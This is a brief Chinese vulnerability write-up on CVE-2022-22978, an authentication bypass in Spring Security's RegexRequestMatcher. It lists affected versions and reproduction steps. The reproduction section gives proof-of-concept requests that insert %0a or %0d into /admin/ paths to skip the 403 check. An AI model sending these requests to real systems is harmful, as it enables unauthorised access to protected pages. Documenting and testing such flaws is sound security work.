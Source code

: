 # VMware Spring Security 身份认证绕过漏洞 CVE-2022-22978

# VMware Spring Security 身份认证绕过漏洞 CVE-2022-22978

## 漏洞描述

VMware Spring Security是美国威睿（VMware）公司的一套为基于Spring的应用程序提供说明性安全保护的安全框架。VMware Spring Security存在授权问题漏洞，该漏洞源于在应用程序中使用 RegexRequestMatcher 以及正则表达式的通配符（**.**）处理不受信任的输入时存在输入验证错误。

参考链接：

- https://xz.aliyun.com/t/11473

## 漏洞影响

```
Spring Security 5.5.x < 5.5.7 
Spring Security 5.6.x < 5.6.4 
Spring Security 其他低版本同样受影响
```

## 漏洞复现

正常访问/admin/下任何路由均会提示403。

在/admin/下任何路由中，插入`%0a`或者`%0d`,即可绕过验证访问页面。

poc：

```
/admin/%0a%0d
```

例如：

```
GET /admin/%0atest HTTP/1.1
```

```
GET /admin/%0dtest HTTP/1.1
```

```
GET /admin/%0a%0d%0dtest HTTP/1.1
```


